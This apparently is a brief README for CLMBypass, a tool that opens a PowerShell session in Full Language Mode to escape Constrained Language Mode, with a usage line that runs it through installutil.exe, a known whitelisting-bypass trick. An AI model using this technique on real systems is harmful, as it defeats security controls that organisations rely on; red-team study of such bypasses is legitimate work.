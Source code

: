 # Constrained Language Mode Bypass

## About
This executable creates a PowerShell prompt from a custom runspace in Full Language Mode. Can be used to bypass Constrained Language Mode if `installutil.exe` is installed and can be executed.

![CLMBypass Demo](https://github.com/user-attachments/assets/fb7b9dc6-e8e7-4f37-b476-4d43ad8e1e69)

## Usage
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U CLMBypass.exe
```
